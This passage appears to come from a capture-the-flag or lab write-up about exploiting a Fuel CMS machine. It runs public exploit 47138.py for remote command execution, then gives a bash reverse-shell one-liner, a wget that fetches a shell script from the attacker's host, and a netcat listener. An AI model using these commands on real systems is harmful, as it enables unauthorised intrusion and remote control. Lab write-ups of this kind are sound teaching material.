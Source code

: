 ```sh
        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]

```
- **As I don't need the proxy here how I make it as a comment**

```sh
└─$ python2 47138.py         
cmd:whoami
systemwww-data

```
- **Its running on python2**
- **Though there is a php error handling issue it working well**

```sh
cmd:ls
systemREADME.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt

cmd:which bash
system/bin/bash


```
- **There is bash so we can try the reverse shell of bash**

![image-4](https://github.com/user-attachments/assets/4d43e574-3057-4b75-9b88-27ef912431f4)
- [Link](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- **I'm using pentestMonkeys rev. shell**

```sh
bash -i >& /dev/tcp/<My local IP>/8080 0>&1
```
- **I tried to directly inject the shell to the victim machine but its not giving me any resources**
- **Lets try it with wget through my machine by the python server**

```sh
cmd: wget http://10.17.88.30/welcome.sh

```
- **In the welcome.sh file I included my script**

```sh
cmd:chmod +x welcome.sh

```
```sh
└─$ nc -nlvp 8080
listening on [any] 8080 ...

```
- **Here my netcat is open**
